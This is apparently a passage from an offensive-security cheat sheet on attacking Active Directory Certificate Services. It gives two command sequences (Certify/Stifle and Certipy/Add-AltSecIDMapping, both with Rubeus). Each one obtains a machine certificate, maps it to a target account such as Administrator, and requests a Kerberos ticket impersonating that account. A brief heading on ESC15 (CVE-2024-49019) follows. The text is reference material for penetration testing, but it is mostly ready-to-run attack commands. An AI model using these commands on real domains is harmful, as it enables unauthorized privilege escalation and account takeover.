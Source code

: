 **Technique 1** with [GhostPack/Certify](https://github.com/GhostPack/Certify) and [logangoins/Stifle](https://github.com/logangoins/Stifle)

```ps1
# the certificate requested must be a machine account certificate
Certify.exe request /ca:lab.lan\lab-dc01-ca /template:Machine /machine

# convert to base64 .pfx format:
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export | base64 -w 0

# generate a certificate mapping string and write it to the target objects altSecurityIdentities attribute:
Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd

# request a TGT using PKINIT authentication, effectively impersonating the target user with Rubeus:
Rubeus.exe asktgt /user:target /certificate:MIIMrQI... /password:P@ssw0rd
```

**Technique 2** using [Deloitte-OffSecResearch/Certipy](https://github.com/Deloitte-OffSecResearch/Certipy) and [JonasBK/Add-AltSecIDMapping.ps1](https://github.com/JonasBK/Powershell/blob/master/Add-AltSecIDMapping.ps1)

```ps1
# request a machine account certificate
addcomputer.py -method LDAPS -computer-name 'ESC13$' -computer-pass 'P@ssw0rd' -dc-host dc.lab.local 'lab.local/kuma'
certipy req -target dc.lab.local -dc-ip 10.10.10.10 -u "ESC13$@lab.local" -p 'P@ssw0rd' -template Machine -ca LAB-CA

# extract Serial Number and Issuer, to configure a strong mapping
certutil -Dump -v .\esc13.pfx
Get-X509IssuerSerialNumberFormat -SerialNumber "<serial-number>" -IssuerDistinguishedName "<issuer-cn>"

# add mapping to the Administrator user
Add-AltSecIDMapping -DistinguishedName "CN=Administrator,CN=Users,DC=lab,DC=local" -MappingString "<output-x509-issuer-serial-number>"

# request TGT for Administrator
Rubeus.exe asktgt /user:Administrator /certificate:esc13.pfx /domain:lab.local /dc:dc.lab.local /show /nowrap
```

## ESC15 - EKUwu Application Policies - CVE-2024-49019

This technique now has a CVE number and was patched on November 12, See [Active Directory Certificate Services Elevation of Privilege Vulnerability - CVE-2024-49019](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019) for more information.

**Requirements**:

* **Template Schema** Version 1
* **ENROLLEE_SUPPLIES_SUBJECT** = `True`
